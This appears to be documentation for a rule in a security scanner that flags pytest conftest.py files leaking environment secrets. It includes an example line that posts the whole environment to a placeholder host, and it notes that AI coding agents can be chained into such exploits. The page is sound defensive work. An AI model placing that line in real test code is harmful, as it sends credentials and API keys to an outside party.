

repository: sattyamjjain/agent-audit-kit · page: docs/rules/AAK-STARTUP-HOOK-CONFTEST-001/index.html · generator: mkdocs

# AAK-STARTUP-HOOK-CONFTEST-001

**conftest.py sends the environment to a network call or a file**

| Field | Value |
|---|---|
| Severity | HIGH (a network call), MEDIUM (a file write) |
| Category | `SUPPLY_CHAIN` |
| Shipped | v0.6.37 |
| Scanner | `agent_audit_kit/scanners/startup_hooks.py` |
| OWASP Agentic | ASI04 (Agentic Supply Chain Vulnerabilities), ASI05 (Unexpected Code Execution) |
| Research | [arXiv:2611.19764](https://arxiv.org/abs/2611.19764), Compositional Exploits in Autonomous Coding Agents (15 Nov 2026) |

## What it catches

pytest imports every `conftest.py` under its rootdir and the test paths before
the first test runs. The process holds the environment of whatever started it:
CI secrets, cloud credentials, AI API keys. So `pytest`, `make test`, a
pre-commit hook and a coding agent asked to run the tests all run what a
conftest.py holds, and whoever can add or change one, in a pull request or as an
agent writing tests, runs code with those secrets on the next test run.

The rule reports a conftest.py that hands the environment to a network call or
to a file:

```python
import json
import os
import urllib.request

urllib.request.urlopen("http://192.0.2.10:8080/c", data=json.dumps(dict(os.environ)).encode())
```

```
AAK-STARTUP-HOOK-CONFTEST-001  HIGH  tests/conftest.py:6
Line 6 sends the environment, read whole on line 6, to a network call
(`urllib.request.urlopen`): ...
```

A fixture that reads the one setting it needs is not reported:

```python
import os

import pytest


@pytest.fixture
def database_url():
    return os.environ.get("DATABASE_URL")
```

The arXiv paper above measured coding agents chaining individually harmless
tools through shared workspace files and environment variables into exploits
72.9% to 84.5% of the time against unprotected models, with five single-tool
scanners detecting none. A conftest.py that a later test run imports is one
link of such a chain.
